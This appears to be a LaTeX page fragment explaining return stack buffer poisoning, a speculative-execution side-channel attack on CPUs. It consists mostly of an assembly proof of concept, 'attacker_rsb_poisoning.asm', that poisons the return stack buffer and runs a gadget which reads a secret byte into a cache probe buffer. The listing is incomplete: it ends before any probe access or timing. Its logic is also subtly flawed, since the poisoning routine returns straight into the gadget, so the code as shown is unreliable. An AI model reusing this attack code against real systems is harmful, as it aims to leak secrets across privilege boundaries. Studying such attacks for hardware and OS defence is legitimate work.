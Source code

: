 \documentclass[11pt,a4paper]{article}
\begin{document}
After the speculative execution is discarded, the attacker can scan the probe buffer and measure which part is now cached. This reveals the value of the secret byte without ever having had direct access to it.

This type of attack shows how speculative execution, even without any memory access rights, can leak sensitive data across privilege boundaries and why branch prediction and return address handling are critical parts of CPU security.\\

\vspace{-0.5em}
\begin{lstlisting}[caption={\texttt{attacker\_rsb\_poisoning.asm}}]
; attacker_rsb_poisoning.asm

global _start
section .text
; Code section starts here

_start:
    mov rcx, 32
    ; Set RCX to 32 -> number of times to poison the RSB

.rsbfiller:
    call poison
    ; Call the poison function, this pushes a return address to RSB

    loop .rsbfiller
    ; Loop 32 times poisoning the RSB -> Return stack Buffer -> with fake return addresses
    ; At this point the RSB is filled with addresses pointing to leak_gadget
    ; Next step would be to execute a privileged binary (e.g. via execve)
    ; so that on context switch, the victim process uses RSB for speculative return

    ;int3
    ; Debug breakpoint -> could be used to inspect state or wait for context switch

poison:
    lea rax, [rip + leak_gadget]
    ; Load address of leak_gadget into RAX

    push rax
    ; Push leak_gadget address onto the stack to poison RSB

    ret
    ; Return to continue RSB filling loop

leak_gadget:
    mov al, byte [rdi]
    ; Speculatively read 1 byte from memory pointed to by RDI (the secret value)
    ; So the filled RSB (which contains return addresses) will be used by the victim during speculation
    ; the CPU speculatively returns to an attacker-controlled memory address due to the poisoned RSB
    ; The victim speculatively executes the gadget, which reads 1 byte of the secret value, and the attacker
    ; is than able to "read" the value out.


    shl rax, 12
    ; Multiply the secret value by 4096 to calculate an offset into the probe buffer
    ; 4096 is the size of a memory page on most systems. -> By spacing each possible access 4096 bytes apart:
    ; Every possible secret value accesses a separate cache line or memory page. That makes it possible for the attacker
    ; to detect exactly which value was accessed, by checking which part of the buffer is now in the CPU cache.


\end{lstlisting}
\end{document}
